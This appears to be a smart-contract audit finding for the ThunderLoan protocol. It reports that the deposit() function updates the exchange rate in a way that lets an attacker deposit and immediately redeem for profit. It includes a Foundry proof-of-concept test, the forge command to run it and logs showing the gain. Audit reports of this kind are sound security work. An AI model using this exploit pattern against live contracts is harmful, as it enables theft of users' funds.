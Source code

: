 
### [HIGH-1] Updating Exchange Rate in `deposit()` function Can Lead to Attacker Draining of Underlying Tokens.

**Description:**
The `deposit()` function in the ThunderLoan contract updates the exchange rate after a deposit has been made. This behavior allows an attacker to exploit the exchange rate adjustment mechanism by continuously depositing and redeeming tokens. Each deposit updates the exchange rate, and by performing this in a loop, an attacker can drain the underlying tokens from the protocol.

**Impact:**
An attacker can deplete the protocol's underlying token reserves. This vulnerability compromises the security of the protocol, leading to a significant loss of funds for the protocol and its users. As users' deposits can be drained, this would result in a loss of trust and potential financial damage to all parties involved.

**Proof of Concept:**

i Wrote Little Test Which Shows Attacker Deposits `DEPOSIT_AMOUNT = 1e21`, and then `redeem()`s right after it and gets more tokens.

```javascript
    function testAttackerCanDepositAndRedeemAfterToDrainProtocolFunds() public setAllowedToken hasDeposits {
        vm.startPrank(attacker);

        tokenA.mint(attacker, DEPOSIT_AMOUNT);
        tokenA.approve(address(thunderLoan), DEPOSIT_AMOUNT);
        thunderLoan.deposit(tokenA, DEPOSIT_AMOUNT);

        console.log("Attacker Deposited This Amount: ", DEPOSIT_AMOUNT);

        AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);
        thunderLoan.redeem(tokenA, assetToken.balanceOf(attacker));

        console.log("Attacker Redeemed Right After it and Received: ", tokenA.balanceOf(attacker));

        vm.stopPrank();

        assert(tokenA.balanceOf(attacker) > DEPOSIT_AMOUNT);
    }
```

Run the Test With Following Command:

```javascript
   forge test --match-test testAttackerCanDepositAndRedeemAfterToDrainProtocolFunds -vvvv
```

Take a Look at the `Logs`:

```javascript
   Logs:
      Attacker Deposited This Amount:  1000000000000000000000
      Attacker Redeemed Right After it and Received:  1001502246630054917247
```
